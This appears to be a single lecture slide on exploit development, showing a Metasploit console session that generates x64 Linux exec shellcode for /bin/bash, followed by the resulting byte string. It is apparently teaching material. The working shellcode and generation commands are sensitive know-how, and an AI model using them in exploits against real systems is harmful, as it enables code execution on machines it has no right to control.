

# Metasploit Shellcode: Payload Create
Let metasploit create an exec() shellcode:
msf > use payload/linux/x64/exec
msf payload(exec) > set cmd = "/bin/bash"
cmd => = /bin/bash
msf payload(exec) > generate
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" +
"\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" +
"\x0c\x00\x00\x00\x3d\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73" +
"\x68\x00\x56\x57\x48\x89\xe6\x0f\x05"